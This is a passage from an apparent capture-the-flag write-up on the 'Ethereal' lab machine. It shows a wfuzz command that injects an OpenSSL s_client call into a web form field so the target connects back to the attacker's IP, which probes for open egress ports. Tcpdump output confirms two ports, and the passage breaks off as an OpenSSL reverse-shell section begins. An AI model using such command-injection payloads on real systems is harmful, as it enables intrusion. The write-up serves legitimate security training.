     
    
    root@kali# wfuzz -c -z range,1-1000 --hs 'body' -H 'Authorization: Basic YWxhbjohQzQxNG0xN3k1N3IxazNzNGc0MW4h' -d '__VIEWSTATE=%2FwEPDwULLTE0OTYxODU3NjhkZITN0C6%2BrURibXNBMKWX85%2BZAtp3
    %2FromW6YbvRa9SBIT&__VIEWSTATEGENERATOR=CA0B0334&__EVENTVALIDATION=%2FwEdAAOibSRuA65MRmFrDi2mLaOa4CgZUgk3s462EToPmqUw3OKvLNdlnDJuHW3p%2B9jPAN%2BI0nXEbEPM6Iq7BrPR58eJPgkqLtaYmjHN%2FiNgZYxL2A%3D%3D&search=%26+c%3a\progra~2
    \openss~1.0\bin\openssl.exe+s_client+-quiet+-connect+10.10.14.14%3aFUZZ&ctl02=' http://ethereal.htb:8080
    
    ********************************************************
    * Wfuzz 2.3.4 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://ethereal.htb:8080/
    Total requests: 1000
    
    ==================================================================
    ID   Response   Lines      Word         Chars          Payload
    ==================================================================
    
    Total time: 1538.89876
    Processed Requests: 1000
    Filtered Requests: 1000
    Requests/sec.: 0.649815
    

Monitoring the `tcpdump` window reveals the two open ports:

    
    
    root@kali# tcpdump -ni tun0 "src host 10.10.10.106 and tcp[tcpflags] == (tcp-syn)"
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    07:00:58.213236 IP 10.10.10.106.49969 > 10.10.14.14.73: Flags [S], seq 76461250, win 8192, options [mss 1357,nop,wscale 8,nop,nop,sackOK], length 0
    07:00:59.163625 IP 10.10.10.106.49969 > 10.10.14.14.73: Flags [S], seq 76461250, win 8192, options [mss 1357,nop,nop,sackOK], length 0
    07:01:42.997152 IP 10.10.10.106.50032 > 10.10.14.14.136: Flags [S], seq 1927768196, win 8192, options [mss 1357,nop,wscale 8,nop,nop,sackOK], length 0
    07:01:43.920329 IP 10.10.10.106.50032 > 10.10.14.14.136: Flags [S], seq 1927768196, win 8192, options [mss 1357,nop,nop,sackOK], length 0
    

### Shell via OpenSSL

#### Why

I’ve already shown that from my current access, I can’t run PowerShell. Now
that I have identified some open ports, I could try to bring a binary to
target that would connect back to me on one of them, but this box is quite
hostile to letting me run much. I do understand there’s a way to bypass the
restrictions using COR PROFILERS. If I have a chance to figure that out, I may
add a follow up post later. But for now I went with OpenSSL for a shell.

#### Generate SSL Cert
